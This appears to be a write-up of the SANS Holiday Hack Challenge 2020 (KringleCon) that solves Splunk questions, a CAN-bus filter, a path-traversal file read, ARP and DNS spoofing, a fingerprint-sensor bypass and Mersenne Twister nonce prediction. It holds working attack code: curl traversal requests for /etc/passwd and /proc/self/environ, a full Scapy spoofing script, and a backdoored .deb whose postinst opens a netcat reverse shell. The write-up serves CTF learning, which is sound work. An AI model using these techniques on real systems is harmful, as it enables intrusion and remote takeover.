Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?
Hints:
Data Decoding and Investigation From: Minty Candycane Defenders often need to manipulate data to decRypt, deCode, and refourm it into something that is useful. Cyber Chef is extremely useful here!
Adversary Emulation and Splunk From: Minty Candycane Dave Herrald talks about emulating advanced adversaries and hunting them with Splunk.
Splunk Basics From: Minty Candycane There was a great Splunk talk at KringleCon 2 that’s still available!
Clicking on the Splunk terminal teleports us to https://splunk.kringlecastle.com/en-US/app/SA-kringleconsoc/kringleconsoc, which lists the challenge question and the first training question.
Challenge Question What is the name of the adversary group that Santa feared would attack KringleCon?
Training Question 1
How many distinct MITRE ATT&CK techniques did Alice emulate?
Alice Bluebird:
I used the query provided by the hint: | tstats count where index=* by index and manually counted the results :‘D
Answer: 13
Training Question 2
Description:
What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)
Alice Bluebird:
The definition links to https://docs.splunk.com/Splexicon:Index
I modified the query from the first hint to filter on index whose name contain 1059.003:
| tstats count where index=*1059.003* by index
Answer: t1059.003-main t1059.003-win
Training Question 3
Description:
One technique that Santa had us simulate deals with ‘system information discovery’. What is the full name of the registry key that is queried to determine the MachineGuid?
Alice Bluebird:
Searching around on the Atomic Red Team repository about MachineGuid, I found this link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1082/T1082.md#atomic-test-8---windows-machineguid-discovery
Answer: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography
Training Question 4
Description:
According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)
Alice Bluebird:

Add ostap to the search query: index=attack ostap, then order by Execution Time UTC:
Answer: 2020-11-30T17:44:15Z
Training Question 5
Description:
One Atomic Red Team test executed by the Attack Range makes use of an open source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?
Alice Bluebird:
I started by looking in the repository on frgnca’s github and found https://github.com/frgnca/AudioDeviceCmdlets.
Then I looked for AudioDeviceCmdlets in the atomic red team repository: https://github.com/akapv/atomic-red-team/blob/master/Windows/Collection/Audio_Capture.md.
We know it’s in index T1123 now and that the command line contains Audio. Adding these filters to the search query, as well as the EventCode=1 from the training question:
index="t1123-win" EventCode=1 CommandLine="*Audio*"
note: you might have to change the time range (right button of the search field) to all time to avoid missing events.
This query matches 2 events, which have PIDs 1664 and 3648:
Trying both PIDs, we find that 3648 is the correct answer.
Answer: 3648
Training Question 6
Description:
Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?
Alice Bluebird:

Searching for bat and atomic red team on the Internetz, this Discovery.bat script shows up:
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1074.001/src/Discovery.bat#L44 and the final command of this bat file is quser.
Answer: quser
Training Question 7
Description:
According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?
Alice Bluebird:
I used this search query to search for x509 certificates:
index=* sourcetype=*bro* sourcetype="bro:x509:json"
Answer: 55FCEEBB21270D9249E86F4B9DC7AA60
Challenge Question
The ciphertext is base64 encoded: 7FXjP1lyfKbyDK/MChyf36h7
The title of RFC 7465 is Prohibiting RC4 Cipher Suites, so the algorithm is probably RC4. The key is in the associated talk Adversary Emulation and Automation, Stay Frosty
Using Cyberchef to decode all of this:
Answer: The Lollipop Guild
7. Solve the Sleigh’s CAN-D-BUS Problem üéÑüéÑüéÑ
Description:
Jack Frost is somehow inserting malicious messages onto the sleigh’s CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh. Visit the NetWars room on the roof and talk to Wunorse Openslae for hints.
Wunorse Openslae
Hey Santa! Those tweaks you made to the sled just don’t seem right to me. I can’t figure out what’s wrong, but maybe you can check it out to fix it.
Solution
Each CAN message is composed of a 11-bit CAN ID and a 8 bytes maximum data payload.
Remove all the noise by setting a filter to all for every CAN IDs except one, so we can analyze them one by one. Example for 244, you would have the filters: 019 All, 188 All, 080 All, 19B All.
We can deduce which CAN IDs does what by clicking on the various buttons and seeing which CAN IDs output changes:
| CAN IDs | NAME | Periodical updates? |
|---|---|---|
| 244 | engine/accelerator | yes, RPM updates |
| 019 | steering | yes |
| 080 | brakes | yes |
| 02A | ignition | no, 00FF00 = ON, 0000FF = OFF |
| 19B | key | no, 000000000000 for LOCK, 00000F000000 for UNLOCK |
We are left with 2 unknown CAN IDs, which don’t match anything on the Sleigh:
19B#0000000F2057(corresponding filter:19B Contains 0F2057)188#00000000(corresponding filter:188 Equals 000000000000)
And there’s one more weird thing with the sleight… If you take a look at the output for CAN ID 080, which is the brakes, it seems to be sending two messages for the same update:
1609068408301 080#000032
1609068408302 080#FFFFFA
1609068408917 080#000032
1609068408918 080#FFFFF3
1609068409225 080#000032
1609068409279 080#FFFFFA
1609068409837 080#000032
1609068409838 080#FFFFF8
I originally had 3 rules implemented : 2 for excluding the unknown CAN IDs and one for the 0xFFFF messages of the brakes. I’m not quite sure why 188 is a valid message, but it needs to be allowed for the sleigh to be defrosted.
Final rules:
080 Contains FFFF19B Contains 0F2057
8. Broken Tag Generator üéÑüéÑüéÑüéÑ
Description
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.
Holly Evergreen
Hi Santa! If you have a chance, I’d love to get your feedback on the Tag Generator updates! I’m a little concerned about the file upload feature, but Noel thinks it will be fine.
Noel Boetie
Welcome to the Wrapping Room, Santa! The tag generator is acting up. I feel like the issue has something to do with weird files being uploaded. Can you help me figure out what’s wrong?
Solution
We can upload image files and inspect the requests made with the developpers tools in Chrome:
-
a POST request is made to upload the image:
POST https://tag-generator.kringlecastle.com/upload -
a GET request then retrieves the image just uploaded, and image name has been changed to some kind of unique ID:
GET https://tag-generator.kringlecastle.com/image?id=fff1fd78-3356-4ebd-adc3-3eb9cbb4d569.png
That URL retrieves a file on the filesystem… We could try a LFI attack, and see if we can get other files, like /etc/passwd:
$ curl https://tag-generator.kringlecastle.com/image\?id\=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
Neat, now we just need to find where to find the environment variables, something in /proc must probably be keeping track:
curl https://tag-generator.kringlecastle.com/image\?id\=../../../../../../proc/self/environ
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
curl will complain, so just add the --output - as instructed:
curl https://tag-generator.kringlecastle.com/image\?id\=../../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app%
Answer: JackFrostWasHere
9. ARP Shenanigans üéÑüéÑüéÑüéÑ
Objective description:
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
Alabaster Snowball
Oh, I see the Scapy Present Packet Prepper has already been completed! Now you can help me get access to this machine. It seems that some interloper here at the North Pole has taken control of the host We need to regain access to some important documents associated with Kringle Castle Maybe we should try a machine-in-the-middle attack? That could give us access to manipulate DNS responses. But we’ll still need to cook up something to change the HTTP response. I’m sure glad you’re here Santa.
Hints:
Sniffy From: Alabaster Snowball Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using tcpdump -nni eth0 to see if you can view any traffic from that host.
Spoofy From: Alabaster Snowball The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in /home/guest/scripts.
Resolvy From: Alabaster Snowball Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let’s return a DNS response resolving the request to our IP.
Embedy From: Alabaster Snowball The malware on the host does an HTTP request for a .deb package. Maybe we can get command line access by sending it a command in a customized .deb file
Description:
Jack Frost has hijacked the host at 10.6.6.35 with some custom malware.
Help the North Pole by getting command line access back to this host.
Read the HELP.md file for information to help you in this endeavor.
Note: The terminal lifetime expires after 30 or more minutes so be
sure to copy off any essential work you have done as you go.
Solution
Sniffy
When running tcpdump on the eth0 interface:
guest@c3f45bfb4628:~/scripts$ tcpdump -nni eth0
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
15:22:39.811576 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:22:40.847481 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:22:41.899493 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
ARP requests are made from the infected host (10.6.6.35) to 10.6.6.53. Given the port, it’s probably requesting a DNS server. Use the skeleton in scripts/arp_resp.py and complete the handle_arp_packets method to send an ARP response saying we are 10.6.6.53.
Spoofy
def handle_arp_packets(packet):
# packet.show()
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)
arp_response = ARP()
arp_response.op = 0x2 # reply
arp_response.plen = 0x4
arp_response.hwlen = 0x6
arp_response.ptype = 0x800 # IPv4
arp_response.hwtype = 1 # ethernet
arp_response.hwsrc = macaddr
arp_response.psrc = packet[ARP].pdst
arp_response.hwdst = packet[Ether].src
arp_response.pdst = packet[ARP].psrc
response = ether_resp / arp_response
# response.show()
sendp(response, iface="eth0")
Note: Running tshark -V -i eth0 gives more details on the sniffed traffic and be great for troubleshooting a not-working-as-intended scapy script.
Trick: the script is small enough to be transfered to/from the box with base64.
Run the script ./arp_resp.py in one tmux pane while sniffing in another tmux pane with tshark -i eth0 -w arp_answer.pcap. The traffic will be saved to a file arp_answer.pcap and can be read with the -r option of tshark.
guest@c3f45bfb4628:~/scripts$ tshark -i eth0 -r arp_answer.pcap
[...]
4 5.175941200 4c:24:57:ab:ed:84 → Broadcast ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
5 5.200013882 02:42:0a:06:00:03 → 4c:24:57:ab:ed:84 ARP 42 10.6.6.53 is at 02:42:0a:06:00:03
6 5.216299387 10.6.6.35 → 10.6.6.53 DNS 74 Standard query 0x0000 A ftp.osuosl.org
7 6.215949834 4c:24:57:ab:ed:84 → Broadcast ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
If the ARP answer is correct, a DNS request (as predicted) is sent next.
Resolvy
The -Y option of tshark adds a display filter, so we can filter on packets containing a DNS layer:
guest@440e6a396174:~/scripts$ tshark -V -r arp_resp.pcap -Y 'dns'
[...]
Domain Name System (query)
Transaction ID: 0x0000
Flags: 0x0100 Standard query
0... .... .... .... = Response: Message is a query
.000 0... .... .... = Opcode: Standard query (0)
.... ..0. .... .... = Truncated: Message is not truncated
.... ...1 .... .... = Recursion desired: Do query recursively
.... .... .0.. .... = Z: reserved (0)
.... .... ...0 .... = Non-authenticated data: Unacceptable
Questions: 1
Answer RRs: 0
Authority RRs: 0
Additional RRs: 0
Queries
ftp.osuosl.org: type A, class IN
Name: ftp.osuosl.org
[Name Length: 14]
[Label Count: 3]
Type: A (Host Address) (1)
Class: IN (0x0001)
That should be enough information to complete the skeleton handle_dns_request() in scripts/dns_resp.py.
DNS was definitely harder to get right than ARP! It took a lot of troubleshooting.
These articles helped me craft a correct DNS answer:
- http://lost-and-found-narihiro.blogspot.com/2016/02/craft-dns-responses-with-python-scapy.html
- https://web.archive.org/web/20160226122221/http://danmcinerney.org/reliable-dns-spoofing-with-python-scapy-nfqueue/
Final DNS answer:
def handle_dns_packet(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src=MAC, dst=packet[Ether].src)
ip = IP(dst=packet[IP].src, src=SPOOFED_IP)
udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # need to replace ports
dns = DNS(
an=DNSRR(rrname=packet[DNS].qd.qname, rdata=ETH0_IP),
ancount=1, aa=1, qr=1,
id=packet[DNS].id,
rd=packet[DNS].rd,
qdcount=packet[DNS].qdcount,
qd=packet[DNS].qd,
)
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
I ended up merging both DNS and ARP handling in one script named spoof.py (download here):
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 ip
ETH0_IP = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
MAC = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
SPOOFED_IP = "10.6.6.53"
def handle_arp_packet(packet):
# packet.show()
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
eth = Ether(dst=packet[Ether].src, type=0x806, src=MAC)
arp = ARP()
arp.op = 0x2 # reply
arp.plen = 0x4
arp.hwlen = 0x6
arp.ptype = 0x800 # IPv4
arp.hwtype = 0x1 # ethernet
arp.hwsrc = MAC
arp.psrc = SPOOFED_IP
arp.hwdst = packet[Ether].src
arp.pdst = packet[ARP].psrc
response = eth / arp
# response.show()
sendp(response, iface="eth0")
def handle_dns_packet(packet):
eth = Ether(src=MAC, dst=packet[Ether].src)
ip = IP(dst=packet[IP].src, src=SPOOFED_IP)
udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)
dns = DNS(
# [DNS].qd.qname vs [DNSQR].qname?
an=DNSRR(rrname=packet[DNS].qd.qname, rdata=ETH0_IP),
ancount=1, aa=1, qr=1,
id=packet[DNS].id,
rd=packet[DNS].rd,
qdcount=packet[DNS].qdcount,
qd=packet[DNS].qd,
)
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
def dispatcher(packet):
if ARP in packet:
handle_arp_packet(packet)
elif DNS in packet:
handle_dns_packet(packet)
else:
print("huh, got a filtered packet that is neither ARP nor DNS")
def main():
# BPF filters
arp_bpf = "(arp[6:2] = 1)"
dns_bpf = " and ".join( [
"udp dst port 53", # dns
"udp[10] & 0x80 = 0", # dns request
"dst host {}".format(SPOOFED_IP), # destination ip we had spoofed (not our real ip)
"ether dst host {}".format(MAC) # our macaddress since we spoofed the ip to our mac
] )
# sniffing for $count packet(s) that will be sent to a function, while storing none
sniff(filter=f"{arp_bpf} or ({dns_bpf})", prn=dispatcher, store=0, count=2)
if __name__ == "__main__":
main()
Our DNS answer worked and triggered something else using TCP and TLS1.3. It’s not very clear what… Let’s try again with an HTTP server this time:
This time, we can see the malware requesting a .deb file:
10.6.6.35 - - [29/Dec/2020 22:06:12] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
Which it obviously doesn’t find since it’s not provided by our server, yet. :))
Embedy
First, we’ll create the hierarchy of directories where we should put suriv_amd64.deb:
guest@c58a854bcd83:~$ mkdir -p pub/jfrost/backdoor/
guest@c58a854bcd83:~$ cd pub/jfrost/backdoor/
The hint gives us a link to a technique to backdoor deb files. The article shows how to modify an existing deb file to embed a payload and add commands to the post-install script to execute it. Bundling a whole ELF payload is a bit overkill in our case, I went the minimalist way: a minimal .deb file containing a netcat binary that will be used to obtain a shell on the target machine.
dpkg-deb can build deb file from a filesystem tree. The man page for the build option specifies:
-b, --build binary-directory [archive|directory]
Creates a debian archive from the filesystem tree stored
in binary-directory. binary-directory must have a DEBIAN
subdirectory, which contains the control information files
such as the control file itself. This directory will not
appear in the binary package's filesystem archive, but
instead the files in it will be put in the binary
package's control information area.
A minimal .deb file must have a DEBIAN subdirectory, with a control file. Let’s create that directory structure in a directory tmp , where we will be cooking up our deb file.
guest@c58a854bcd83:~/pub/jfrost/backdoor$ mkdir -p tmp/DEBIAN
The documentation on binary packages control files tells us what fields are mandatory:
- Package
- Version
- Architecture
- Maintainer
- Description
Putting together a control file with these fields:
guest@c58a854bcd83:~/pub/jfrost/backdoor$ cat > tmp/DEBIAN/control << EOF
Package: suriv
Version: 1.0
Architecture: amd64
Maintainer: Beep Boop
Description: beep boop I'm a bot
EOF
Next, we’ll create a bin directory and copy the nc binary:
guest@c58a854bcd83:~/pub/jfrost/backdoor$ mkdir tmp/bin
guest@c58a854bcd83:~/pub/jfrost/backdoor$ cp `which nc` .
Last missing file in our package: a post-install script that executes netcat:
guest@c58a854bcd83:~/pub/jfrost/backdoor$ cat > tmp/DEBIAN/postinst << EOF
heredoc> #!/bin/sh
/bin/nc 10.6.0.3 4242 -e /bin/bash &
note:
- You need to use the actual IP of eth0, and not the spoofed IP here.
- Don’t forget to make the
postinstscript executable.
The final structure of the package is:
.
├── bin
│ └── nc
└── DEBIAN
├── control
└── postinst
We can then build the package:
guest@c58a854bcd83:~/pub/jfrost/backdoor$ dpkg-deb --build tmp suriv_amd64.deb
dpkg-deb: building package 'suriv' in 'suriv_amd64.deb'.
And we’re ready to test the whole thing:
-
a netcat listener
nc -lvp 4242on port 4242 -
a http server on port 80:
python -m http.server 80
guest@4d5a1d185e1c:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [01/Jan/2021 10:34:12] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 200 -
- the spoofing script:
./spoof.py
And you should get a connection from arp_requester.guestnet0.kringlecastle.com and a shell as jfrost in the netcat listener:
guest@4d5a1d185e1c:~$ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.6.0.3] from arp_requester.guestnet0.kringlecastle.com [10.6.6.35] 42982
id
uid=1500(jfrost) gid=1500(jfrost) groups=1500(jfrost)
With this shell, we can print the content of /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. And in the middle of that long elf-legalese thing, the flag is hidden in this sentence:
Tanta Kringle recused herself from the vote given her adoption of Kris Kringle as a son early in his life.
Answer: Tanta Kringle
10. Defeat Fingerprint Sensor üéÑüéÑüéÑ
Description
Bypass the Santavator fingerprint sensor. Enter Santa’s office without Santa’s fingerprint.
Solution
Okay, let’s deep dive into app.js! We’re looking for information on the Santa's Office button or on the fingerprint scanner.
const btn1 = document.querySelector('button[data-floor="1"]');
const btn2 = document.querySelector('button[data-floor="1.5"]');
const btn3 = document.querySelector('button[data-floor="2"]');
const btn4 = document.querySelector('button[data-floor="3"]');
const btnr = document.querySelector('button[data-floor="r"]');
btn1.addEventListener('click', handleBtn);
btn2.addEventListener('click', handleBtn);
btn3.addEventListener('click', handleBtn);
btn4.addEventListener('click', handleBtn4);
btnr.addEventListener('click', handleBtn);
The list of the lift’s buttons is defined at line 383. The last one before the roof is Santa’s Office, so btn4 is the button we want. What’s also interesting here, btn4 the only button that has a different handler: handleBtn4, while all the other buttons have handleBtn.
Let’s compare the two handlers:
const handleBtn = event => {
const targetFloor = event.currentTarget.attributes['data-floor'].value;
$.ajax({
type: 'POST',
url: POST_URL,
dataType: 'json',
contentType: 'application/json',
data: JSON.stringify({
targetFloor,
id: getParams.id,
}),
success: (res, status) => {
if (res.hash) {
__POST_RESULTS__({
resourceId: getParams.id || '1111',
hash: res.hash,
action: `goToFloor-${targetFloor}`,
});
}
}
});
}
And handleBtn4:
const handleBtn4 = () => {
const cover = document.querySelector('.print-cover');
cover.classList.add('open');
cover.addEventListener('click', () => {
if (btn4.classList.contains('powered') && hasToken('besanta')) {
$.ajax({
type: 'POST',
url: POST_URL,
dataType: 'json',
contentType: 'application/json',
data: JSON.stringify({
targetFloor: '3',
id: getParams.id,
}),
success: (res, status) => {
if (res.hash) {
__POST_RESULTS__({
resourceId: getParams.id || '1111',
hash: res.hash,
action: 'goToFloor-3',
});
}
}
});
} else {
__SEND_MSG__({
type: 'sfx',
filename: 'error.mp3',
});
}
});
};
The only difference between the two handlers is the check before actually making the POST request:
if (btn4.classList.contains('powered') && hasToken('besanta')) {
It verifies that:
- The Santa’s Office button is powered on
besantais in the the list of tokens
Using the developer tools in Chrome, we can inspect the source code:
and notice that the list of tokens is provided directly in the URL of the iframe.
Double-click on it to edit it, and add ,besanta at the end of URL:
<iframe title="challenge" src="https://elevator.kringlecastle.com?challenge=elevatorr&id=73473f84-7ceb-4547-a923-2e970aaa9e8e&username=kylma&area=santavator5&location=1,2&tokens=marble,nut2,nut,candycane,ball,yellowlight,elevator-key,greenlight,redlight,workshop-button,besanta"></iframe>
You can now activate the fingerprint scanner without any complaints. Well, apart from Tinsel Upatree who’s flabbergasted:
GOSHGOLLY How did you get in here?? I mean, hey, I’m impressed you made it in here, but you’ve got to leave! Breaking into Santa’s office might mean immediate membership on the wrong side of the Naughty/Nice List.
But you still can’t access the Naughty/Nice list on Santa’s desk:
Santa’s Naughty/Nice List is for Santa and Elf Ethicists only.
11a. Naughty/Nice List with Blockchain Investigation Part 1 üéÑüéÑüéÑüéÑüéÑ
Description:
Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000? Talk to Tangle Coalbox in the Speaker UNpreparedness Room for tips on prediction and Tinsel Upatree for more tips and tools. (Enter just the 16-character hex value of the nonce)
Tangle Coalbox:
Howdy Boss. You look a tad flushed. Can I get you some water from the vending machine? I’m still looking into the Snowball Game like you asked. I read the write-up of the test completed earlier this summer with the web socket vulnerabilities. I was able to complete the Easy level, but the Impossible level is, umm… I’d call it impossible, but I just saw someone beat it! Is it possible that the name a player provides influences how the forts are laid out? Oh, oh, maybe if I feed a Hard name into an Easy game I can manipulate it! UGH! on Impossible, the best I get are rejected player names in the page comments… maybe that’s useful? I’ll have to re-watch Tom Liston’s talk again. Thanks for all the tips and encouragement Santa!
Tinsel Upatree:
Howdy Santa! Just guarding the Naughty/Nice list on your desk. Santa, I don’t know if you’ve heard, but something is very, very wrong… We tabulated the latest score of the Naughty/Nice Blockchain. Jack Frost is the nicest being in the world! Jack Frost!?! As you know, we only really start checking the Naughty/Nice totals as we get closer to the holidays. Out of nowhere, Jack Frost has this crazy score… positive 4,294,935,958 nice points! No one has EVER gotten a score that high! No one knows how it happened. Most of us recall Jack having a NEGATIVE score only a few days ago… Worse still, his huge positive score seems to have happened way back in March. Our first thought was that he somehow changed the blockchain - but, as you know, that isn’t possible. We ran a validation of the blockchain and it all checks out. Even the smallest change to any block should make it invalid. Blockchains are huge, so we cut a one minute chunk from when Jack’s big score registered back in March. You can get a slice of the Naughty/Nice blockchain on your desk. You can get some tools to help you here. Tangle Coalbox, in the Speaker UNPreparedness room. has been talking with attendees about the issue.
Solution
We get a OfficialNaughtyNiceBlockchainEducationPack.zip,
$ tree OfficialNaughtyNiceBlockchainEducationPack
OfficialNaughtyNiceBlockchainEducationPack
├── Dockerfile
├── docker.sh
├── naughty_nice.py
├── official_public.pem
└── private.pem
0 directories, 5 files
I’m going to ignore the Dockerfile and docker.sh as I already have pycryptodome installed on my machine. If not, you can run pip install --user pycryptodome to install it.
Let’s have a look at the rest of the files:
-
naughty_nice.pyis the main script and has a whole book in the comment of the script, it’s a must read as it contains lots of useful information and will help you understand how the blockchain works. -
official_public.pemthe public key to verify the signature of the blockchain. -
private.peman example private key (also bundling the public key) that can be used for your own blockchain tests.
Alright, we have some hints that we should take a look at how Mersenne Twister works and how it affects the randomness of the generated numbers. Mersenne Twister is the pseudo-random number generator used by the random module in Python.
So first, we can start looking for places in the code where functions from the random modules are used:
self.nonce = random.randrange(0xFFFFFFFFFFFFFFFF)
And we have some more information about the nonce in the comments:
In addition to this built-in property of a blockchain, the Official Naughty/Nice Blockchain has a few
other safeguards. The cryptographic hash of each block is signed using the Official Santa Signature
System (OS3). Currently, the Official Naughty/Nice Blockchain uses MD5 as its hashing algorithm, but
plans are in place to move to SHA256 in 2021. This update is part of a phased process to modernize
the blockchain code. In 2019, the entire blockchain system was ported from the original COBOL code to
Python3. Because of concerns about hash collisions in MD5, in the new Python3 code, a 64-bit random
"nonce" was added to the beginning of each block at the time of creation.
Note: random.seed() is never called, so the default seed is used ie the current system time.
There’s just one tiny problem with Mersenne-Twister: it’s possible to create a predictor that will produce the same output of numbers than the one used by the nonce if we have enough data, ie 624 random numbers.
I used this library for building the predictor: https://github.com/kmyk/mersenne-twister-predictor which I found easier to work with.
pip install --user mersenne-twister-predictor
Nonce 32-bit vs nonce 64-bit
But there’s a problem, that library can only predict 32-bit numbers… And the nonces are random 64-bit numbers.
Let’s take a look at how Python would generate a 64-bit random number. From this writeup, I learned that a 64-bit random number is nothing more than 2 32-bit random numbers smashed together!
This code generating a 64-bit random number:
import random
# use a fixed seed for debug
random.seed(10)
r1 = random.getrandbits(64)
print(r1)
is actually equivalent this code smashing two 32-bit random numbers together:
import random
# use a fixed seed for debug
random.seed(10)
r1 = random.getrandbits(32)
r2 = random.getrandbits(32)
nonce = (r2 << 32) | r1
print(nonce)
This means that we can write function to convert a 64-bit nonce into two 32-bit nonce:
def n64_to_n32(nonce):
n2 = nonce >> 32
n1 = (n2 << 32) ^ nonce
return n1, n2
def n32_to_n64(n1, n2):
nonce = (n2 << 32) | n1
return nonce
Alright, here’s the rest of the battleplan:
-
Extract the 64-bit nonces from the blockchain
-
Seed a Mersenne Twister predictor
-
Predict 64-bit nonces with the 32-bit nonces from the Mersenne Twister predictor
Extract the 64-bit nonces from the blockchain
Python makes it pretty easy:
def obj11a():
with open('official_public.pem', 'rb') as fh:
official_public_key = RSA.importKey(fh.read())
# load the chain from the blockchain.dat file
chain = Chain(load=True, filename='blockchain.dat')
# go through the chain and build the list of 64-bit nonces
nonces64bit = [block.nonce for block in chain.blocks]
Seed a Mersenne Twister Predictor
Next, we create a Mersenne Twister Predictor. We extract two 32-bit nonces for each 64-bit nonce from our previous list. The 32-bit nonces are used to seed the Mersenne Twister Predictor and also saved to a list. And we repeat that operation until we have 624 of them, the minimum to be able to predict.
# list of extract 32-bit nonces
nonces32bit = []
# create a generator
predictor = MT19937Predictor()
# seed it with 624 32bit nonces that we extracted from the 64bit nonces
for i in range(624 // 2):
n1, n2 = n64_to_n32(nonces64bit[i])
predictor.setrandbits(n1, 32)
predictor.setrandbits(n2, 32)
nonces32bit.append(n1)
nonces32bit.append(n2)
Our predictor is now ready to use ~~
Predict 64-bit nonces
We predict a whole bunch of 32-bit nonces to expand our nonces32bit list:
nb_of_predictions = 4000
print(f"predicting {624+nb_of_predictions} nonces32bit")
for i in range(nb_of_predictions):
nonces32bit.append(predictor.getrandbits(32))
And now, we can rebuild 64-bit nonces for any index, with the function we wrote earlier:
predicted_nonce64 = n32_to_n64(n1, n2)
We’re starting at index 1540 so we can verify that our predicted 64-bit nonce are identical to the 64-bit nonces extracted from index 1540 to 1547. And then we predict 4 more 64-bit nonces:
start = 1540
for i in range(1, 24, 2):
n1 = nonces32bit[start * 2 - 1 + i]
n2 = nonces32bit[start * 2 + i]
try:
currentnonce64 = nonces64bit[start + i // 2]
except:
currentnonce64 = None
print(f"index {start + i//2} predicted nonce64 {n32_to_n64(n1, n2)} {currentnonce64} nonce64value ")
So the nonce of the block 130000 (ie index 1551) is:
index 1551 predicted nonce64 6270808489970332317 None nonce64value
The full Python script can be downloaded here.
Now, we just need to transform that into hex:
>>> hex(6270808489970332317)
'0x57066318f32f729d'
Flag: 57066318f32f729d
Resources:
- https://en.wikipedia.org/wiki/Mersenne_Twister
- https://github.com/kmyk/mersenne-twister-predictor
- https://eldipa.github.io/book-of-gehn/articles/2018/12/23/Mersenne-Twister-PRNG.html
11b. Naughty/Nice List with Blockchain Investigation Part 2 üéÑüéÑüéÑüéÑüéÑ
Description:
The SHA256 of Jack’s altered block is: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f. If you’re clever, you can recreate the original version of that block by changing the values of only 4 bytes. Once you’ve recreated the original block, what is the SHA256 of that block?
Solution
Signature Checking
My first idea was that, if Jack has altered the blockchain, then it’s no longer valid (because he can’t sign it without the official private key). So the altered block should be one with a bad signature.
Let’s try to verify the integrity of the whole blockchain.dat we got. We can uncomment the source code in the main function for that:
# Note: This is how you would load and verify a blockchain contained in a file called blockchain.dat
with open('official_public.pem', 'rb') as fh:
official_public_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')
print('C2: Block chain verify: %s' % (c2.verify_chain(official_public_key)))
print(c2.blocks[0])
c2.blocks[0].dump_doc(1)
Running it says that the block 128449 ’s signature is bad, is this the altered block?
$ ./naughty_nice.py
*** WARNING *** Wrong previous hash at block 128449.
*** WARNING *** Blockchain invalid from block 128449 onward.
C2: Block chain verify: False
Chain Index: 128449
Nonce: e3e12de5edfb51e2
PID: 0803508ada0a5ebf
RID: aecbf777616d9fa4
Document Count: 1
Score: 000000dc (220)
Sign: 1 (Nice)
Data item: 1
Data Type: 05 (PDF)
Data Length: 000003a7
Data: b'255044462d312 [...] 454f460a0a'
Date: 03/24
Time: 13:21:00
PreviousHash: c6e2e6ecb785e7132c8003ab5aaba88d
Data Hash to Sign: 03cfb11504b8eee93b26aeb0d8ac39ff
Signature: b'PT4OZUq+ [...] /mN2uUzmQ=='
Document dumped as: 128449.pdf
